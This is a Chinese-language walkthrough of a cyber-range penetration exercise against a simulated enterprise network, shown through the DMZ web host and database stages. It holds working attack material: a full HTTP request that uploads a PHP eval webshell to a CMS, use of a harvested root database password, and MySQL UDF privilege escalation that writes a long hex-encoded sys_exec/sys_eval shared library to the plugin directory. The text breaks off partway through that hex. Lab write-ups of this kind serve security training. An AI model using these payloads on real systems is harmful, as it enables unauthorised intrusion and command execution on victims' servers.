







# 典型企业网络环境渗透赛

[TOC]

## 一、靶场介绍

#### 1.场景介绍

随着信息技术的发展，网络已成为一个新的战场。美国智库兰德公司称网络战为信息时代的核武器，能够在网络上引发核爆的网络战，从过去的网络威慑已经开始向实战迈进。中国是遭受网络攻击最多的国家之一，特别是在一些关键时期，例如每年两会期间、G20期间、以及新冠病毒疫情期间，我国遭受的网络攻击都要比正常情况下多的多。为了提高政府、企事业单位、关键基础设施网络等的安全性，相关单位会邀请专业安全服务公司对其网络进行渗透测试，发现网络脆弱环节，并进行相应的整改。场景模拟典型企业环境，包含DMZ区，内网服务区，办公区和核心网络，请针对关键节点进行渗透突破，获取核心内网的域控权限。

#### 2.场景拓扑


#### 3.攻击路线


#### 4.知识点

Web漏洞利用

数据库udf提权

横向移动

密码爆破

免杀绕过安全软件

域内提权

#### 5.漏洞编号

CVE-2021-4034

CNVD-2021-49104

CNVD-2022-10270

CVE-2021–42278

#### 6.Att&ck框架指标/Shield防御指标

T1595 - 主动扫描

T1059 - 命令行界面

T1203 - 利用客户端漏洞获取执行权限

T1136 - 创建账户

T1078 - 有效凭证

T1068 - 利用漏洞进行权限提升

T1202 - 间接命令执行

T1110 - 暴力破解

T1083 - 文件与目录发现

T1570 - 工具横向转移

T1105 - 远程文件拷贝

T1210 - 利用远程服务

T1090 - 连接代理

T1558 - 窃取或伪造Kerberos票据

#### 7.Engage攻防模型

EAC0006 - 应用多样性

EAC0021 - 攻击向量迁移

EAC0007 - 网络多样性

EAC0004 - 网络分析

EAC0003 - 系统活动监控

EAC0014 - 软件操作

EAC0015 - 信息处理

## 二、靶场题解

#### 阶段一：DMZ网络渗透测试

##### 任务1：Web主机漏洞利用（T1203 - 利用客户端漏洞获取执行权限）

```
本场景的第1任务是对目标站点进行探测，判断主机是否存在可以利用的漏洞。

内容管理系统（content management system，CMS），是一种位于WEB前端（Web 服务器）和后端办公系统或流程（内容创作、编辑）之间的软件系统。内容的创作人员、编辑人员、发布人员使用内容管理系统来提交、修改、审批、发布内容。这里指的“内容”可能包括文件、表格、图片、数据库中的数据甚至视频等一切你想要发布到Internet、Intranet以及Extranet网站的信息。

该任务可以通过以下操作完成。
```

已知目标站点：`192.168.100.200`，使用火狐浏览器访问：


获取目标密钥：

```
http://192.168.100.200/base/post.php

act=appcode
```


将密钥（k后面的值）与a进行拼接：

```
e2e6137724990904cb967e5305ff4b09a
```

将此值进行MD5加密得到值：

```
dfb346c405ac03be38edd82c62236b87
```

构造webshell：

```
POST /base/appfile.php HTTP/1.1
Host: 192.168.100.200
Cache-Control: max-age=0
Origin: null
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.132 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryCznr39h1oUlUvOGG
Accept: */*
Referer: http://192.168.100.200/base/appfile.php
Accept-Language: zh-cn
Cookie: Hm_lvt_a93ba41c8cfa578d8fa3f514694f399b=1570960058;
Host: 192.168.100.200
Content-Length: 726


------WebKitFormBoundaryCznr39h1oUlUvOGG
Content-Disposition: form-dAta;name='file';fIlename='configs.php'
Content-Type: application/octet-stream

<?php @eval($_POST[pass]);?>
------WebKitFormBoundaryCznr39h1oUlUvOGG
Content-Disposition: form-data; name='t'

a
------WebKitFormBoundaryCznr39h1oUlUvOGG
Content-Disposition: form-data; name='m'

dfb346c405ac03be38edd82c62236b87
------WebKitFormBoundaryCznr39h1oUlUvOGG
Content-Disposition: form-data; name='act'

upload
------WebKitFormBoundaryCznr39h1oUlUvOGG
Content-Disposition: form-data; name='r_size'

28
------WebKitFormBoundaryCznr39h1oUlUvOGG
Content-Disposition: form-data; name='submit'

getshell
------WebKitFormBoundaryCznr39h1oUlUvOGG--
```

回到网站主页：


设置火狐浏览器代理：


设置代理地址：


启用代理：


启动抓包工具：


点击`Next`>>`Start Burp`进入主页面，点击`Proxy`，此时已开启拦截：


刷新火狐浏览器，点击`Forward`过滤数据包，找到网站的Get请求数据包：


将webshell进行覆盖：


将改造过的数据包发送到`Repeater`：


进入`Repeater`，点击`Go`，上传webshell：


显示`OK`表示上传成功，启动蚁剑工具：


添加shell URL：


shell信息如下：

```
Shell url:http://192.168.100.200/effect/source/bg/configs.php

Shell pwd:pass
```


点击`Add`进行添加，右键URL点击`Terminal`进入终端，执行命令查看权限：


获取到system权限。

##### 任务2：信息收集发现数据库（T1083 - 文件与目录发现）

```
本场景的第2任务是利用漏洞获取目标权限后进行信息收集，分析敏感文件。

MySQL是一个关系型数据库管理系统，由瑞典MySQL AB公司开发，属于Oracle旗下产品。MySQL是最流行的关系型数据库管理系统之一，在 WEB应用方面，MySQL是最好的RDBMS (Relational Database Management System，关系数据库管理系统) 应用软件之一。

该任务可以通过以下操作完成。
```

双击URL进入文件目录，发现flag：


发现数据库配置文件信息：

```
$dbHost="192.168.100.100";
$dbName="SN";
$dbUser="root";
$dbPass="Cf5BAMPTYkrx";
```


右键URL点击`Database`：


点击`Add`，配置数据库信息：


点击`Add`进行添加，添加成功后双击链接看到数据库：


##### 任务3：数据库提权（T1068 - 利用漏洞进行权限提升、T1059 - 命令行界面）

```
本场景的第3任务是获取到数据库的连接信息后尝试进行漏洞利用。

使用过MySQL的人都知道，MySQL有很多内置函数提供给使用者，包括字符串函数、数值函数、日期和时间函数等，给开发人员和使用者带来了很多方便。MySQL的内置函数虽然丰富，但毕竟不能满足所有人的需要，有时候我们需要对表中的数据进行一些处理而内置函数不能满足需要的时候，就需要对MySQL进行一些扩展，幸运的是，MySQL给使用者提供了添加新函数的机制，这种使用者自行添加的MySQL函数就称为UDF(User Define Function)。

该任务可以通过以下操作完成。
```

双击进入`SN`数据库，输入命令查看插件地址：

```
show variables like "%plugin%";
```


查看是否可以进行udf提权：

```
show variables like "%secure_file%";
```


结果显示值为空，可以进行udf提权：

将十六进制udf导入成udf.so并写入指定插件目录中，执行下方代码块内容：

```
select unhex('7F454C4602010100000000000000000003003E0001000000800A000000000000400000000000000058180000000000000000000040003800060040001C0019000100000005000000000000000000000000000000000000000000000000000000C414000000000000C41400000000000000002000000000000100000006000000C814000000000000C814200000000000C8142000000000004802000000000000580200000000000000002000000000000200000006000000F814000000000000F814200000000000F814200000000000800100000000000080010000000000000800000000000000040000000400000090010000000000009001000000000000900100000000000024000000000000002400000000000000040000000000000050E574640400000044120000000000004412000000000000441200000000000084000000000000008400000000000000040000000000000051E5746406000000000000000000000000000000000000000000000000000000000000000000000000000000000000000800000000000000040000001400000003000000474E5500D7FF1D94176ABA0C150B4F3694D2EC995AE8E1A8000000001100000011000000020000000700000080080248811944C91CA44003980468831100000013000000140000001600000017000000190000001C0000001E000000000000001F00000000000000200000002100000022000000230000002400000000000000CE2CC0BA673C7690EBD3EF0E78722788B98DF10ED971581CA868BE12BBE3927C7E8B92CD1E7066A9C3F9BFBA745BB073371974EC4345D5ECC5A62C1CC3138AFF3B9FD4A0AD73D1C50B5911FEAB5FBE1200000000000000000000000000000000000000000000000000000000000000000300090088090000000000000000000000000000010000002000000000000000000000000000000000000000250000002000000000000000000000000000000000000000CD00000012000000000000000000000000000000000000001E0100001200000000000000000000000000000000000000620100001200000000000000000000000000000000000000E30000001200000000000000000000000000000000000000B90000001200000000000000000000000000000000000000680100001200000000000000000000000000000000000000160000002200000000000000000000000000000000000000540000001200000000000000000000000000000000000000F00000001200000000000000000000000000000000000000B200000012000000000000000000000000000000000000005A01000012000000000000000000000000000000000000005201000012000000000000000000000000000000000000004C0100001200000000000000000000000000000000000000E800000012000B00D10D000000000000D1000000000000003301000012000B00A90F0000000000000A000000000000001000000012000C00481100000000000000000000000000007800000012000B009F0B0000000000004C00000000000000FF0000001200090088090000000000000000000000000000800100001000F1FF101720000000000000000000000000001501000012000B00130F0000000000002F000000000000008C0100001000F1FF201720000000000000000000000000009B00000012000B00480C0000000000000A000000000000002501000012000B00420F0000000000006700000000000000AA00000012000B00520C00000000000063000000000000005B00000012000B00950B0000000000000A000000000000008E00000012000B00EB0B0000000000005D00000000000000790100001000F1FF101720000000000000000000000000000501000012000B00090F0000000000000A00000000000000C000000012000B00B50C000000000000F100000000000000F700000012000B00A20E00000000000067000000000000003900000012000B004C0B0000000000004900000000000000D400000012000B00A60D0000000000002B000000000000004301000012000B00B30F0000000000005501000000000000005F5F676D6F6E5F73746172745F5F005F66696E69005F5F6378615F66696E616C697A65005F4A765F5265676973746572436C6173736573006C69625F6D7973716C7564665F7379735F696E666F5F696E6974006D656D637079006C69625F6D7973716C7564665F7379735F696E666F5F6465696E6974006C69625F6D7973716C7564665F7379735F696E666F007379735F6765745F696E6974007379735F6765745F6465696E6974007379735F67657400676574656E76007374726C656E007379735F7365745F696E6974006D616C6C6F63007379735F7365745F6465696E69740066726565007379735F73657400736574656E76007379735F657865635F696E6974007379735F657865635F6465696E6974007379735F657865630073797374656D007379735F6576616C5F696E6974007379735F6576616C5F6465696E6974007379735F6576616C00706F70656E007265616C6C6F63007374726E6370790066676574730070636C6F7365006C6962632E736F2E36005F6564617461005F5F6273735F7374617274005F656E6400474C4942435F322E322E3500000000000000000000020002000200020002000200020002000200020002000200020001000100010001000100010001000100010001000100010001000100010001000100010001000100010001006F0100001000000000000000751A6909000002009101000000000000F0142000000000000800000000000000F0142000000000007816200000000000060000000200000000000000000000008016200000000000060000000300000000000000000000008816200000000000060000000A0000000000000000000000A81620000000000007000000040000000000000000000000B01620000000000007000000050000000000000000000000B81620000000000007000000060000000000000000000000C01620000000000007000000070000000000000000000000C81620000000000007000000080000000000000000000000D01620000000000007000000090000000000000000000000D816200000000000070000000A0000000000000000000000E016200000000000070000000B0000000000000000000000E816200000000000070000000C0000000000000000000000F016200000000000070000000D0000000000000000000000F816200000000000070000000E00000000000000000000000017200000000000070000000F00000000000000000000000817200000000000070000001000000000000000000000004883EC08E8EF000000E88A010000E8750700004883C408C3FF35F20C2000FF25F40C20000F1F4000FF25F20C20006800000000E9E0FFFFFFFF25EA0C20006801000000E9D0FFFFFFFF25E20C20006802000000E9C0FFFFFFFF25DA0C20006803000000E9B0FFFFFFFF25D20C20006804000000E9A0FFFFFFFF25CA0C20006805000000E990FFFFFFFF25C20C20006806000000E980FFFFFFFF25BA0C20006807000000E970FFFFFFFF25B20C20006808000000E960FFFFFFFF25AA0C20006809000000E950FFFFFFFF25A20C2000680A000000E940FFFFFFFF259A0C2000680B000000E930FFFFFFFF25920C2000680C000000E920FFFFFF4883EC08488B05ED0B20004885C07402FFD04883C408C390909090909090909055803D680C2000004889E5415453756248833DD00B200000740C488D3D2F0A2000E84AFFFFFF488D1D130A20004C8D25040A2000488B053D0C20004C29E348C1FB034883EB014839D873200F1F4400004883C0014889051D0C200041FF14C4488B05120C20004839D872E5C605FE0B2000015B415CC9C3660F1F84000000000048833DC009200000554889E5741A488B054B0B20004885C0740E488D3DA7092000C9FFE00F1F4000C9C39090554889E54883EC3048897DE8488975E0488955D8488B45E08B0085C07421488D0DE7050000488B45D8BA320000004889CE4889C7E89BFEFFFFC645FF01EB04C645FF000FB645FFC9C3554889E548897DF8C9C3554889E54883EC3048897DF8488975F0488955E848894DE04C8945D84C894DD0488D0DCA050000488B45E8BA1F0000004889CE4889C7E846FEFFFF488B45E048C7001E000000488B45E8C9C3554889E54883EC2048897DF8488975F0488955E8488B45F08B0083F801751C488B45F0488B40088B0085C0750E488B45F8C60001B800000000EB20488D0D83050000488B45E8BA2B0000004889CE4889C7E8DFFDFFFFB801000000C9C3554889E548897DF8C9C3554889E54883EC4048897DE8488975E0488955D848894DD04C8945C84C894DC0488B45E0488B4010488B004889C7E8BBFDFFFF488945F848837DF8007509488B45C8C60001EB16488B45F84889C7E84BFDFFFF4889C2488B45D0488910488B45F8C9C3554889E54883EC2048897DF8488975F0488955E8488B45F08B0083F8027425488D0D05050000488B45E8BA1F0000004889CE4889C7E831FDFFFFB801000000E9AB000000488B45F0488B40088B0085C07422488D0DF2040000488B45E8BA280000004889CE4889C7E8FEFCFFFFB801000000EB7B488B45F0488B40084883C004C70000000000488B45F0488B4018488B10488B45F0488B40184883C008488B00488D04024883C0024889C7E84BFCFFFF4889C2488B45F848895010488B45F8488B40104885C07522488D0DA4040000488B45E8BA1A0000004889CE4889C7E888FCFFFFB801000000EB05B800000000C9C3554889E54883EC1048897DF8488B45F8488B40104885C07410488B45F8488B40104889C7E811FCFFFFC9C3554889E54883EC3048897DE8488975E0488955D848894DD0488B45E8488B4010488945F0488B45E0488B4018488B004883C001480345F0488945F8488B45E0488B4018488B10488B45E0488B4010488B08488B45F04889CE4889C7E8EFFBFFFF488B45E0488B4018488B00480345F0C60000488B45E0488B40184883C008488B10488B45E0488B40104883C008488B08488B45F84889CE4889C7E8B0FBFFFF488B45E0488B40184883C008488B00480345F8C60000488B4DF8488B45F0BA010000004889CE4889C7E892FBFFFF4898C9C3554889E54883EC3048897DE8488975E0488955D8C745FC00000000488B45E08B0083F801751F488B45E0488B40088B55FC48C1E2024801D08B0085C07507B800000000EB20488D0DC2020000488B45D8BA2B0000004889CE4889C7E81EFBFFFFB801000000C9C3554889E548897DF8C9C3554889E54883EC2048897DF8488975F0488955E848894DE0488B45F0488B4010488B004889C7E882FAFFFF4898C9C3554889E54883EC3048897DE8488975E0488955D8C745FC00000000488B45E08B0083F801751F488B45E0488B40088B55FC48C1E2024801D08B0085C07507B800000000EB20488D0D22020000488B45D8BA2B0000004889CE4889C7E87EFAFFFFB801000000C9C3554889E548897DF8C9C3554889E54881EC500400004889BDD8FBFFFF4889B5D0FBFFFF488995C8FBFFFF48898DC0FBFFFF4C8985B8FBFFFF4C898DB0FBFFFFBF01000000E8BEF9FFFF488985C8FBFFFF48C745F000000000488B85D0FBFFFF488B4010488B00488D352C0200004889C7E852FAFFFF488945E8EB63488D85E0FBFFFF4889C7E8BDF9FFFF488945F8488B45F8488B55F04801C2488B85C8FBFFFF4889D64889C7E80CFAFFFF488985C8FBFFFF488D85E0FBFFFF488B55F0488B8DC8FBFFFF4801D1488B55F84889C64889CFE8D1F9FFFF488B45F8480145F0488B55E8488D85E0FBFFFFBE000400004889C7E831F9FFFF4885C07580488B45E84889C7E850F9FFFF488B85C8FBFFFF0FB60084C0740A4883BDC8FBFFFF00750C488B85B8FBFFFFC60001EB2B488B45F0488B95C8FBFFFF488D0402C60000488B85C8FBFFFF4889C7E8FBF8FFFF488B95C0FBFFFF488902488B85C8FBFFFFC9C39090909090909090554889E5534883EC08488B05A80320004883F8FF7419488D1D9B0320000F1F004883EB08FFD0488B034883F8FF75F14883C4085BC9C390904883EC08E84FF9FFFF4883C408C300004E6F20617267756D656E747320616C6C6F77656420287564663A206C69625F6D7973716C7564665F7379735F696E666F29000000000000006C69625F6D7973716C7564665F7379732076657273696F6E20302E302E33000045787065637465642065786163746C79206F6E6520737472696E67207479706520706172616D6574657200000000000045787065637465642065786163746C792074776F20617267756D656E74730000457870656374656420737472696E67207479706520666F72206E616D6520706172616D6574657200436F756C64206E6F7420616C6C6F63617465206D656D6F7279007200011B033B800000000F00000008F9FFFF9C00000051F9FFFFBC0000005BF9FFFFDC000000A7F9FFFFFC00000004FAFFFF1C0100000EFAFFFF3C01000071FAFFFF5C01000062FBFFFF7C0100008DFBFFFF9C0100005EFCFFFFBC010000C5FCFFFFDC010000CFFCFFFFFC010000FEFCFFFF1C02000065FDFFFF3C0200006FFDFFFF5C0200001400000000000000017A5200017810011B0C0708900100001C0000001C00000064F8FFFF4900000000410E108602430D0602440C070800001C0000003C0000008DF8FFFF0A00000000410E108602430D06450C07080000001C0000005C00000077F8FFFF4C00000000410E108602430D0602470C070800001C0000007C000000A3F8FFFF5D00000000410E108602430D0602580C070800001C0000009C000000E0F8FFFF0A00000000410E108602430D06450C07080000001C000000BC000000CAF8FFFF6300000000410E108602430D06025E0C070800001C000000DC0000000DF9FFFFF100000000410E108602430D0602EC0C070800001C000000FC000000DEF9FFFF2B00000000410E108602430D06660C07080000001C0000001C010000E9F9FFFFD100000000410E108602430D0602CC0C070800001C0000003C0100009AFAFFFF6700000000410E108602430D0602620C070800001C0000005C010000E1FAFFFF0A00000000410E108602430D06450C07080000001C0000007C010000CBFAFFFF2F00000000410E108602430D066A0C07080000001C0000009C010000DAFAFFFF6700000000410E108602430D0602620C070800001C000000BC01000021FBFFFF0A00000000410E108602430D06450C07080000001C000000DC0100000BFBFFFF5501000000410E108602430D060350010C0708000000000000000000FFFFFFFFFFFFFFFF0000000000000000FFFFFFFFFFFFFFFF00000000000000000000000000000000F01420000000000001000000000000006F010000000000000C0000000000000088090000000000000D000000000000004811000000000000F5FEFF6F00000000B8010000000000000500000000000000E805000000000000060000000000000070020000000000000A000000000000009D010000000000000B000000000000001800000000000000030000000000000090162000000000000200000000000000380100000000000014000000000000000700000000000000170000000000000050080000000000000700000000000000F0070000000000000800000000000000600000000000000009000000000000001800000000000000FEFFFF6F00000000D007000000000000FFFFFF6F000000000100000000000000F0FFFF6F000000008607000000000000F9FFFF6F0000000001000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000F81420000000000000000000000000000000000000000000B609000000000000C609000000000000D609000000000000E609000000000000F609000000000000060A000000000000160A000000000000260A000000000000360A000000000000460A000000000000560A000000000000660A000000000000760A0000000000004743433A2028474E552920342E342E3720323031323033313320285265642048617420342E342E372D3429004743433A2028474E552920342E342E3720323031323033313320285265642048617420342E342E372D31372900002E73796D746162002E737472746162002E7368737472746162002E6E6F74652E676E752E6275696C642D6964002E676E752E68617368002E64796E73796D002E64796E737472002E676E752E76657273696F6E002E676E752E76657273696F6E5F72002E72656C612E64796E002E72656C612E706C74002E696E6974002E74657874002E66696E69002E726F64617461002E65685F6672616D655F686472002E65685F6672616D65002E63746F7273002E64746F7273002E6A6372002E646174612E72656C2E726F002E64796E616D6963002E676F74002E676F742E706C74002E627373002E636F6D6D656E7400000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000001B0000000700000002000000000000009001000000000000900100000000000024000000000000000000000000000000040000000000000000000000000000002E000000F6FFFF6F0200000000000000B801000000000000B801000000000000B400000000000000030000000000000008000000000000000000000000000000380000000B000000020000000000000070020000000000007002000000000000780300000000000004000000020000000800000000000000180000000000000040000000030000000200000000000000E805000000000000E8050000000000009D0100000000000000000000000000000100000000000000000000000000000048000000FFFFFF6F0200000000000000860700000000000086070000000000004A0000000000000003000000000000000200000000000000020000000000000055000000FEFFFF6F0200000000000000D007000000000000D007000000000000200000000000000004000000010000000800000000000000000000000000000064000000040000000200000000000000F007000000000000F00700000000000060000000000000000300000000000000080000000000000018000000000000006E000000040000000200000000000000500800000000000050080000000000003801000000000000030000000A000000080000000000000018000000000000007800000001000000060000000000000088090000000000008809000000000000180000000000000000000000000000000400000000000000000000000000000073000000010000000600000000000000A009000000000000A009000000000000E0000000000000000000000000000000040000000000000010000000000000007E000000010000000600000000000000800A000000000000800A000000000000C80600000000000000000000000000001000000000000000000000000000000084000000010000000600000000000000481100000000000048110000000000000E000000000000000000000000000000040000000000000000000000000000008A00000001000000020000000000000058110000000000005811000000000000EC0000000000000000000000000000000800000000000000000000000000000092000000010000000200000000000000441200000000000044120000000000008400000000000000000000000000000004000000000000000000000000000000A0000000010000000200000000000000C812000000000000C812000000000000FC01000000000000000000000000000008000000000000000000000000000000AA000000010000000300000000000000C814200000000000C8140000000000001000000000000000000000000000000008000000000000000000000000000000B1000000010000000300000000000000D814200000000000D8140000000000001000000000000000000000000000000008000000000000000000000000000000B8000000010000000300000000000000E814200000000000E8140000000000000800000000000000000000000000000008000000000000000000000000000000BD000000010000000300000000000000F014200000000000F0140000000000000800000000000000000000000000000008000000000000000000000000000000CA000000060000000300000000000000F814200000000000F8140000000000008001000000000000040000000000000008000000000000001000000000000000D3000000010000000300000000000000781620000000000078160000000000001800000000000000000000000000000008000000000000000800000000000000D8000000010000000300000000000000901620000000000090160000000000008000000000000000000000000000000008000000000000000800000000000000E1000000080000000300000000000000101720000000000010170000000000001000000000000000000000000000000008000000000000000000000000000000E60000000100000030000000000000000000000000000000101700000000000059000000000000000000000000000000010000000000000001000000000000001100000003000000000000000000000000000000000000006917000000000000EF00000000000000000000000000000001000000000000000000000000000000010000000200000000000000000000000000000000000000581F00000000000068070000000000001B0000002C00000008000000000000001800000000000000090000000300000000000000000000000000000000000000C02600000000000042030000000000000000000000000000010000000000000000000000000000000000000000000000000000000000000000000000000000000000000003000100900100000000000000000000000000000000000003000200B80100000000000000000000000000000000000003000300700200000000000000000000000000000000000003000400E80500000000000000000000000000000000000003000500860700000000000000000000000000000000000003000600D00700000000000000000000000000000000000003000700F00700000000000000000000000000000000000003000800500800000000000000000000000000000000000003000900880900000000000000000000000000000000000003000A00A00900000000000000000000000000000000000003000B00800A00000000000000000000000000000000000003000C00481100000000000000000000000000000000000003000D00581100000000000000000000000000000000000003000E00441200000000000000000000000000000000000003000F00C81200000000000000000000000000000000000003001000C81420000000000000000000000000000000000003001100D81420000000000000000000000000000000000003001200E81420000000000000000000000000000000000003001300F01420000000000000000000000000000000000003001400F81420000000000000000000000000000000000003001500781620000000000000000000000000000000000003001600901620000000000000000000000000000000000003001700101720000000000000000000000000000000000003001800000000000000000000000000000000000100000002000B00800A0000000000000000000000000000110000000400F1FF000000000000000000000000000000001C00000001001000C81420000000000000000000000000002A00000001001100D81420000000000000000000000000003800000001001200E81420000000000000000000000000004500000002000B00A00A00000000000000000000000000005B00000001001700101720000000000001000000000000006A00000001001700181720000000000008000000000000007800000002000B00200B0000000000000000000000000000110000000400F1FF000000000000000000000000000000008400000001001000D01420000000000000000000000000009100000001000F00C01400000000000000000000000000009F00000001001200E8142000000000000000000000000000AB00000002000B0010110000000000000000000000000000C10000000400F1FF00000000000000000000000000000000D40000000100F1FF90162000000000000000000000000000EA00000001001300F0142000000000000000000000000000F700000001001100E0142000000000000000000000000000040100000100F1FFF81420000000000000000000000000000D01000012000B00D10D000000000000D1000000000000001501000012000B00130F